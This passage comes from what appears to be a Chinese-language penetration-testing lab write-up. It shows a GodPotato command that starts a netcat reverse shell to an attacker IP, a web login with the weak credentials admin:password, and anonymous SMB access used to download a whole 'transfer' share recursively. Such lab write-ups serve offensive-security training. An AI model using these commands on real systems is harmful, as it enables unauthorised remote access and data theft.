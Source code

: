 利用GodPotato去执行反向shell

```
./GodPotato-NET4.exe -cmd "nc.exe -e cmd 192.168.45.222 8003"
```

![image-20250913214217549](./Challenge%202%20-%20Relia/image-20250913214217549.png)

# 192.168.*.248

这个服务器下的web服务有个登录接口，并且尝试弱密码`admin:password`登陆成功

![image-20250913165736325](./Challenge%202%20-%20Relia/image-20250913165736325.png)

这里有个账户`emma`

并且smb可以不用密码访问，将transfer中的所有内容下载到本地

```
smbclient //192.168.234.248/transfer
recurse	ON			#开启递归，开启后会以目录递归方式运行mget和mput命令
prompt OFF			#关闭交互，开启后，下载文件时不再要求输入y/n确认
mget *				#批量获取文件，*是一个调配符，递归遍历时，任何文件名符合
```

将文件下载到本地之后可以`ls -R *` `-R`是递归查找
